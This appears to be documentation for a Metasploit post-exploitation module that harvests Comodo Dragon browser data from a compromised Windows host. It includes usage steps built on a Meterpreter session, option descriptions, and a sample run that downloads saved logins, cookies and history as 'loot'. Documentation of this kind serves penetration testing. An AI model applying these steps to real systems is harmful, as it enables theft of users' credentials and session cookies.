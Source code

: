 ## Module Description

This post-exploitation module gathers artifacts found on comodo related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/comodo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/comodo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Comodo's parent folder found
[*] Comodo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Login Data
[*] Comodo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoLoginData_429364.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125515_default_192.168.56.106_EXTRACTIONSLogin_329462.bin
[*] Comodo's parent folder found
[*] Comodo's Cookies file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Cookies
[*] Comodo Cookies downloaded
[+] File saved to:  /root/.msf4/loot/20210513125515_default_192.168.56.106_comodoCookies_259188.bin

[+] File with credentials saved:  /root/.msf4/loot/20210513125516_default_192.168.56.106_EXTRACTIONSCooki_639838.bin
[*] Comodo's parent folder found
[*] Comodo's History file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\History
[*] Comodo History downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoHistory_353947.bin

[*] no such column: lower_term
[*] Comodo's parent folder found
[*] Comodo's Visited links file found
[*] Downloading C:\Users\IEUser\AppData\Local\Comodo\Dragon\User Data\Default\Visited Links
[*] Comodo Visited links downloaded
[+] File saved to:  /root/.msf4/loot/20210513125516_default_192.168.56.106_comodoVisitedLi_752304.bin

[*] file is not a database
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
 